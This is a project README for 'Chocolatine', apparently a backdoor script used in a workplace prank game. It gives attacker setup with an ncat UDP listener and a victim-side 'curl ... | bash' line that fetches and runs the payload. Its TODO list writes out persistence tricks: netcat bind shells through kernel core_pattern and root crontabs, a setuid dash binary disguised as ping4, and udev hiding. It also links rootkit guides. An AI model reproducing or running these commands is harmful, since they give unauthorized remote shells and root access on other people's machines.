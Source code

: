 # Chocolatine :bread: :cookie: :doughnut:

## How to configure and use
You have to edit these lines with your IP, PORT and METHOD
```bash
LHOST="192.168.1.19"
LPORT="4242"
LMTHD="--udp"
```
The Attacker needs to open a listening connection with ncat
```bash
Attacker : ncat --udp -lvp 4242
```
Then you only have to run the following command on your victim
```bash
Victim   : curl http://example.com/chocolatine.sh|bash
```

## Rules
 - No lies
 - No backdoor in an internal git script
 - No network attack (MITM ...)
 - No word macro
 - No keylogger
 - No spoof mail
 - No personal datas, no leak !
 - No Deny of Service (if there is one, you need to pay the croissant)
 - After 7 days of tries, you will remove your backdoor
 - You won't recover any PLAIN passwords    
:warning: If there is a challenge, none of the above applied !


## TODO
 - :x: Fish Shell (~/.config/fish/config.fish)
 - :x: Alias rewrite
 - :x: Core Pattern :   echo '|/bin/nc.traditional -l -p 31337 -e /bin/sh' | sudo tee /proc/sys/kernel/core_pattern
   gedit & kill -SEGV %%
 - :x: Crontab :  for u in root games mysql; do sudo crontab -e -u $u; done
  5 * * * * /bin/nc.traditional -l -p 31337 -e /bin/sh
  /etc/cron.hourly/ and /etc/cron.d/.
 - :x: Suid Dash :o sudo cp /bin/dash /bin/ping4 && sudo chmod u+s /bin/ping4
 - :x: /etc/udev/rules.d or better /lib/udev/rules.d/. UDEV Hide

## Links
 - https://blogs.gnome.org/muelli/2009/06/g0t-r00t-pwning-a-machine/
 - http://turbochaos.blogspot.com/2013/09/linux-rootkits-101-1-of-3.html
 - http://www.jakoblell.com/blog/2014/05/07/hacking-contest-rootkit/

